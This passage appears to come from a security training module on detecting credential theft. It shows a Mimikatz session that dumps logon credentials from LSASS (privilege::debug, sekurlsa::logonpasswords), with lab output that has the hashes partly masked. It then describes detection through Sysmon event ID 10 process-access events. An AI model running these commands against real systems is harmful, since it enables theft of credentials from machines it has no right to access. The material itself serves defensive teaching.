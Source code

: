 The attack can be executed as follows.

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( [email protected] )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( [email protected] )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :

```

As we can see, the output of the "sekurlsa::logonpasswords" command provides powerful insights into compromised credentials.

To detect this activity, we can rely on a different Sysmon event. Instead of focusing on DLL loads, we shift our attention to process access events. By checking `Sysmon event ID 10`, which represents "ProcessAccess" events, we can identify any suspicious attempts to access LSASS.

![Image](https://academy.hackthebox.com/storage/modules/216/image32.png)![Image](https://academy.hackthebox.com/storage/modules/216/image33.png)
